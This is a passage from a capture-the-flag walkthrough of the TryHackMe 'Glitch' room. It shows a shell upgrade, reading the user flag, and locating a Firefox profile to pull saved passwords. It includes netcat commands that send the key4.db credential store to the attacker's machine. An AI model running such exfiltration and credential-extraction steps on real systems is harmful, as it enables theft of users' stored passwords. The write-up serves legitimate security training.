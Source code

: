 Let's upgrade to a better shell:

```text
 python -c 'import pty;pty.spawn("/bin/bash")'
user@ubuntu:/var/web$
```

And now we can grab the user flag:

```text
user@ubuntu:/var/web$ cd /home/user
user@ubuntu:~$ ls -lsa
ls -lsa
total 48
 4 drwxr-xr-x   8 user user  4096 Jan 27 10:33 .
 4 drwxr-xr-x   4 root root  4096 Jan 15 14:13 ..
 0 lrwxrwxrwx   1 root root     9 Jan 21 09:05 .bash_history -> /dev/null
 4 -rw-r--r--   1 user user  3771 Apr  4  2018 .bashrc
 4 drwx------   2 user user  4096 Jan  4 13:41 .cache
 4 drwxrwxrwx   4 user user  4096 Jan 27 10:32 .firefox
 4 drwx------   3 user user  4096 Jan  4 13:41 .gnupg
12 drwxr-xr-x 270 user user 12288 Jan  4 14:07 .npm
 4 drwxrwxr-x   5 user user  4096 Apr  4 20:23 .pm2
 4 drwx------   2 user user  4096 Jan 21 08:47 .ssh
 4 -rw-rw-r--   1 user user    22 Jan  4 15:29 user.txt
user@ubuntu:~$ cat user.txt
THM{i_don't_know_why}
```

While we're here, I notice a .firefox folder. This may contain saved passwords for the user, let's have a look at that:

```text
user@ubuntu:~$ cd .firefox
user@ubuntu:~/.firefox$ ls -lsa
4 drwxrwxrwx 11 user user 4096 Jan 27 10:32  b5w4643p.default-release
4 drwxrwxrwx  3 user user 4096 Jan 27 10:32 'Crash Reports'
4 -rwxrwxr-x  1 user user  259 Jan 27 10:32  profiles.ini
```

We have the users Firefox config files, in there are two files that can be used to extract any saved credentials. I covered this in another TryHackMe room called [GateKeeper](https://pencer.io/ctf/ctf-thm-gatekeeper/) a while ago. So I can just follow the same steps. The script to use is [here](https://github.com/lclevy/firepwd.git), have a read to understand how it works, and which files you need to retrieve.

First we copy the two required files over to Kali. Start a nc listener waiting for the first file:

```text
┌──(root💀kali)-[~/thm/glitch]
└─# nc -nlvp 4444 > key4.db
listening on [any] 4444 ...
```

Now back on the glitch server we send the file to Kali:

```text
user@ubuntu:~/.firefox/b5w4643p.default-release$ nc -nv 10.8.165.116 4444 < key4.db
.db-nv 10.8.165.116 4444 < key4.
Connection to 10.8.165.116 4444 port [tcp/*] succeeded!
```
